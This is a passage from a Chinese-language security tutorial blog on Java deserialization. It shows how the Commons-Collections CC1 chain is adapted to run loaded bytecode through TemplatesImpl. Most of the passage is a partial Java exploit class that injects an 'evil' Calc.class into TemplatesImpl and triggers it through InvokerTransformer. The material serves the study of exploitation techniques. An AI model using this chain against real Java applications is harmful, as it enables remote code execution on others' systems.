 ![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/SuccessTemplatesImpl.png)

## 0x05 CC1 链的 TemplatesImpl 的实现方式

> TemplatesImpl 只是将原本的命令执行变成代码执行的方式所以在不考虑黑名单的情况下，如果可以进行命令执行，则一定可以通过动态加载字节码进行代码执行。

- 如图，链子不变，只是最后的命令执行方式变了。

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/Diff.png)

所以这里我们先尝试修改命令执行的方法，这时候的链子应该是从后往前的，也就是确定了命令执行的方式之后，将传参设置为动态加载的字节码。并且前面的链子不变。

暂时的 EXP 是这样的。

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CC1TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 // templates.newTransformer();  
  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 chainedTransformer.transform(1);   
}
```
